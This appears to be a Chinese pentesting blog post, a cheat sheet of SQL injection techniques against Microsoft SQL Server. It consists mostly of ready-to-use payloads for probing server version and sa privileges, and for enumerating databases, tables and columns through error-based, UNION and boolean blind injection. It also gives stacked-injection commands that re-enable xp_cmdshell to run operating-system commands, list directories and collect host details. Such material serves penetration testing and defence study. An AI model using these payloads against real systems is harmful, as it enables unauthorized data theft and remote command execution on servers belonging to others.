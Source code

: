 ```yaml
---
draft: false
date: 2018-09-04 10:09:17
title: SQL注入 tips(SQL Server)
description: SQL Server 注入常见的一些注入手法
categories:
  - Pentest
tags:
  - SQL注入
---
```


### 0x00 基础信息探测
```sql
@@VERSION,@@SERVERNAME,@@SERVICENAME;
--Microsoft SQL Server 2008 (RTM) - 10.0.1600.22 (X64) 
--WIN-2008
--MSSQLSERVER

USER,CURRENT_USER,SESSION_USER,SYSTEM_USER;
--dbo
--dbo
--dbo
--sa

USER_NAME(),HOST_NAME(),HOST_ID(),SUSER_NAME();
--dbo
--wyb
--46530
--sa

USER_ID(),USER_SID();
--1
--<01>

ORIGINAL_LOGIN();
--sa
```

### 0x01 UNION query & error-based 注入
* 判断存在注入

```
and 1=1/and 1=2
```
```sql
select * from msg where id=1 and 11=(select case when(1=1) then 11 else 2 end);

select * from msg where id=1 and 11=(select case when(1=2) then 11 else 2 end);
```

* 判断是否为sa权限

```sql
select name from msg where id=1 and 1=convert(int,(select is_srvrolemember('sysadmin')));
```

![55](/img/post/20180904-105516.png)

* 得到所有数据库名字
![75](/img/post/20180904-110306.png)

```sql
--得到数据库名，前6个是系统自带的数据库，所以从第7个开始，dbid依次增加即可得到所有数据库
id=1 and 0<>(select name from master.dbo.sysdatabases where dbid=7);
id=1 and 0<>(select name from master.dbo.sysdatabases where dbid=8);

--通过 not in 依次得到数据库名
id=1 and 0<>(select top 1 name from master.dbo.sysdatabases where dbid>6 and name not in (select top 1 name from master.dbo.sysdatabases where dbid>6))
id=1 and 0<>(select top 1 name from master.dbo.sysdatabases where dbid>6 and name not in (select top 2 name from master.dbo.sysdatabases where dbid>6))
```

![75](/img/post/20180904-151240.png)

* 得到数据库test的所有表名（用户创建的表xtype的值是U）
![70](/img/post/20180904-111912.png)

```sql
--得到数据库test的第一张表
id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U';

--得到数据库test的第二张表方法一
id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U' and name not in ('article');
--得到数据库test的第二张表方法二
id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U' and name not in (select top 1 name from test.dbo.sysobjects where xtype='U');
```
![80](/img/post/20180904-151551.png)

* 得到数据库test的表article的所有列名
    * 可以分两步：先得到article的表id，然后得到列名
    ![60](/img/post/20180904-112859.png)
    ![75](/img/post/20180904-112938.png)

    * <f>也可直接一条命令直接得到列信息</f>
    ```
    select id,name from syscolumns where id=(select id from sysobjects where name='msg');
    ```

* 得到数据库test的表article的数据
![75](/img/post/20180904-113720.png)

### 0x02 boolean-based blind 注入
```sql
?id=1 and substring(db_name(),1,1)='a' --
?id=1 and substring(db_name(),1,1)='b' --
```

```sql
-- 转换为数字
?id=1 and unicode(substring((select db_name()),1,1))>88 --
?id=1 and ascii(substring((select db_name()),1,1))>88 --
```

```sql
-- 转换为16进制
id=1 and (select master.dbo.fn_varbintohexstr(CONVERT(varbinary(30),(substring(db_name(),1,1)))) from master..sysdatabases where dbid=1) not in ('0x7400')
```

### 0x03 Stacked 注入
* 执行系统命令

```bash
#判断xp_cmdshell是否被删除
?id=1 and 1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell');

#开启xp_cmdshell
?id=1;exec sp_configure 'show advanced options',1;reconfigure;exec sp_configure 'xp_cmdshell',1;reconfigure;--

#使用xp_cmdshell执行命令
exec master..xp_cmdshell 'whoami';
```

* 文件操作

```
#列目录、文件
exec master..xp_dirtree 'c:\wwwroot',1 #列c:\wwwroot下的文件夹 
exec master..xp_dirtree 'c:\wwwroot',1,1 #列c:\wwwroot下的文件夹和文件

exec master..xp_subdirs 'c:\wwwroot' #列c:\wwwroot下的文件夹

#显示系统可用盘符
exec master..xp_availablemedia
```

* 主机、中间件信息

```
#获得MS SQL的版本号
exec master..sp_msgetversion

#列出服务器上所有windows本地用户组
exec master..xp_enumgroups

#得到当前sql server服务器的计算机名称
exec master..xp_getnetname

#服务器安全模式信息
exec master..xp_loginconfig
```
